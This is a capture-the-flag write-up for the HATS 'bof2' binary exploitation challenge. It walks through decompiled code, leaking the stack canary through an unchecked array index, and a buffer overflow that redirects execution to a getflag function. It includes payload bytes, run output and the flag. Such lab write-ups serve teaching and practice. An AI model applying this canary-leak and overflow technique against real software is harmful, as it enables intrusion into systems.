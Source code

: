 # bof2
Pwn

## Challenge 

Defeat the canary protection! P.S. The canary is autogenerated and different everytime! perhaps you need some tools ... pwntools

nc challs.hats.sg 1302

Reading material:

https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/canary/ (full)
https://ctf101.org/binary-exploitation/stack-canaries/
http://www.auxy.xyz/tutorial/2018/09/01/Pwntools-Step-By-Step.html (pwntools)

Author: @dickheadedzed

## Hint
That Fibonacci number printer seems suspicious. There's no bounds checking!

The canary is different everytime! Perhaps there is a way to solve this problem ... in an automated fashion. Use pwntools

## Solution

Decompile in Hopper

	int main() {
	    rsp = rsp + 0xffffffffffffff80;
	    rax = 0x0;
	    rax = 0x0;
	    rax = banner();
	    var_70 = 0x0; // var_70: -112
	    var_68 = 0x1; // var_68: -104
	    var_60 = 0x1; // var_60: -96
	    var_58 = 0x2; // var_58: -88
	    var_50 = 0x3; // var_50: -80
	    var_48 = 0x5; // var_48: -72
	    var_40 = 0x8; // var_40: -64
	    var_38 = 0xd; // var_38: -56
	    rax = puts("im the bof fib printer!");
	    rax = puts("gimme index of the number you want me to print:");
	    rax = 0x0;
	    rax = __isoc99_scanf(0x402150, &var_74);
	    rsi = *(rbp + sign_extend_32(var_74) * 0x8 + 0xffffffffffffff90);
	    rax = 0x0;
	    rax = printf(0x402153); // %zu
	    rax = read(0x0, &var_30, 0x100); // var_30: -48
	    rax = 0x0;
	    rax = printf("hey i printed the fib, %s, what do ya want!", &var_30);
	    rax = 0x0;
	    rcx = *0x28 ^ *0x28;
	    if (rcx != 0x0) {
	            rax = __stack_chk_fail();
	    }
	    return rax;
	}

Check getflag() address

	# gdb bof2
	(gdb) break getflag
	Breakpoint 1 at 0x401219

From the decompiled code, we can query an index of the memory before we do our buffer overflow.

The code shows 8x 64-bit values (index 0 through 7) which are constants. Our buffer is at index 8.

	# ./bof2
	*** WELCOME TO bof2.c ***
	im the bof fib printer!
	gimme index of the number you want me to print:
	8
	139825235751584

The buffer is 40 bytes long (ie. offset -48 to offset -8). Hence, it spans for 5 index. Hence the canary is at index 13 (and it is an always changing canary value).

Now we can write our exploit code.

We can query canary at index 13 and then send a payload of 'A'* 40. Apparently, this shows part of the canary being printed and we can confirm we got the right canary values.

	bof2 $ python3 solve.py 
	canary 0x96db6cec7f5d0a00 b'\x96\xdbl\xec\x7f]\n\x00'
	b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
	b' i printed the fib, AAAAAAAAAAAAAAAAAAAAAAAAAAA'
	b'AAAAAAAAAAAAA\n\n]\x7f\xecl\xdb\x96P\x13@, what do ya want!'
	*** stack smashing detected ***: ./bof2 terminated
	*** Connection closed by remote host ***

Now just write the script to include the canary and return value

Get flag

	$ python3 solve.py 
	canary 0x84792f8c422f5800 b'\x84y/\x8cB/X\x00'
	b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00X/B\x8c/y\x84JUNKJUNK\x19\x12@\x00\x00\x00\x00\x00'
	b' i printed the fib, AAAAAAAAAAAAAAAAAAAAAAAAAAA'
	b'AAAAAAAAAAAAA, what do ya want!'

	HINT: you shoudn't jump straight to getflag
	but instead somewhere in the middle

	This is due to the stack alignment shifting (the value of rbp now has a '8' in the units place, which system() does not like)
	HATS{cAnarie_suX_h3h1}

## Flag

	HATS{cAnarie_suX_h3h1}
